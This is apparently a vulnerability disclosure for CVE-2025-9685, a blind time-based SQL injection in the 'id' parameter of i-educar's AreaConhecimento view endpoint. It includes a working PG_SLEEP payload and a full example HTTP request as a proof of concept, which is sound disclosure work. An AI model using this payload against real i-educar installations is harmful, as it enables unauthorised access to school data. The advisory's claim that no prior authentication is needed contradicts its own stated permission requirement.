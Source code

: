 # SQL Injection (Blind Time-Based) Vulnerability in `id` Parameter on `/module/AreaConhecimento/view` Endpoint

---

## Summary

A SQL Injection vulnerability was identified in the `/module/AreaConhecimento/view` endpoint of the _i-educar_ application, specifically in the `id` parameter. This vulnerability allows attackers to execute arbitrary SQL commands on the backend database, potentially compromising the confidentiality, integrity, and availability of application data.

---

## Details

**Vulnerable Endpoint:** `/module/AreaConhecimento/view`  
**Parameter:** `id`

To reach the vulnerable functionality, it is necessary to navigate to:  
**Escola > Cadastros > Tipos > Regras de Avaliação > Listagem de áreas de conhecimento**.

<img width="1455" height="662" alt="Pasted image 20250817192322" src="https://github.com/user-attachments/assets/002c3fc2-90e8-429a-bb3f-a3fd92ce965a" />


Additionally, exploiting this vulnerability requires an account with permissions to **create/list the "Escola" menu**.

The application fails to properly validate and sanitize user input in the `id` parameter. As a result, attackers can inject crafted SQL payloads that are executed directly by the database. This could allow database enumeration, data exfiltration, modification, or denial of service via time-based delays.

---

## PoC

**Payload:**

`'+AND+7097=(SELECT+7097+FROM+PG_SLEEP(5))+AND+'WqeR'='WqeR`

This payload triggers a **5-second delay** in the server response, demonstrating that the parameter is vulnerable to blind time-based SQL injection.

**Example Request:**
```
GET /module/AreaConhecimento/view?id=3'+AND+7097=(SELECT+7097+FROM+PG_SLEEP(5))+AND+'WqeR'='WqeR HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Referer: http://localhost/module/AreaConhecimento/index
Cookie: [COOKIE]
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
```

<img width="1121" height="1008" alt="Pasted image 20250817192600" src="https://github.com/user-attachments/assets/e04514ef-ae0f-4d8e-94ca-ce979a28d69b" />


Observe the increased server response time, confirming that the injected SQL command was executed.

---

## Impact

- **Unauthorized data access:** Reading sensitive information such as credentials, personal data, or configuration details
    
- **Database enumeration:** Extracting database schema, tables, and column details
    
- **Data manipulation:** Adding, modifying, or deleting database records
    
- **Denial of Service (DoS):** Using time-based queries to impact system availability
    
- **Potential escalation to RCE:** If combined with other vulnerabilities and specific database features
    

This vulnerability affects all users who can interact with the vulnerable parameter, and it can be exploited remotely without prior authentication if the endpoint is exposed.


## References

[CVE-2025-9685](https://www.cve.org/CVERecord?id=CVE-2025-9685)

[VulnDB-321897](https://vuldb.com/?id.321897)

[I-Educar – Official Repository](https://github.com/portabilis/i-educar)

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr) 

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)
